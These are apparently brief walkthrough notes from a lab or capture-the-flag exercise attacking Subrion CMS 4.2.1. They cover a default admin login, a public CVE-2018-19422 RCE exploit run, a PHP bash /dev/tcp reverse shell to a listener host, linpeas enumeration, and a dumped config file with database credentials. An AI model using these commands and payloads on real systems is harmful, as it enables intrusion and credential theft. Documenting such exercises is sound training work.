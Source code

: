 subrion CMS 4\.2\.1 login

-  admin:admin

CVE\-2018\-19422\-SubrionCMS\-RCE
[https://github.com/hev0x/CVE-2018-19422-SubrionCMS-RCE](#https://github.com/hev0x/CVE-2018-19422-SubrionCMS-RCE)


└─$ sudo python3 49876\.py \-u [http://192.168.201.163/panel/](#http://192.168.201.163/panel/)
\-l admin \-p admin
-  www\-data

-  followed steps to get reverse shell

PHP one liner
\<?php
exec\("/bin/bash \-c 'bash \-i \>\& /dev/tcp/192\.168\.0\.92/1337 0\>\&1'"\);

-  using webshell 
-  php reverse\.php

$ www\-data

\./linpeas\.sh

╔══════════╣ Searching passwords in config PHP files
/var/www/html/subrion/includes/api/storage\.php:        return \($member \&\& $member\['password'\] == $iaUsers\-\>encodePassword\($client\_secret\)\);          
/var/www/html/subrion/includes/classes/ia\.core\.config\.php:    const TYPE\_PASSWORD = 'password';
/var/www/html/subrion/includes/config\.inc\.php:define\('INTELLI\_DBUSER', 'subrionuser'\);


cat /var/www/html/subrion/includes/config\.inc\.php
\<?php
/\*
\* Subrion Open Source CMS 4\.2\.1
\* Config file generated on 10 June 2021 12:04:54
\*/

define\('INTELLI\_CONNECT', 'mysqli'\);
define\('INTELLI\_DBHOST', 'localhost'\);
define\('INTELLI\_DBUSER', 'subrionuser'\);
define\('INTELLI\_DBPASS', 'target100'\);
define\('INTELLI\_DBNAME', 'subrion'\);
define\('INTELLI\_DBPORT', '3306'\);
define\('INTELLI\_DBPREFIX', 'sbr421\_'\);

define\('IA\_SALT', '#5A7C224B51'\);

// debug mode: 0 \- disabled, 1 \- enabled
define\('INTELLI\_DEBUG', 0\);

-  DID NOT YIELD ANYTHING
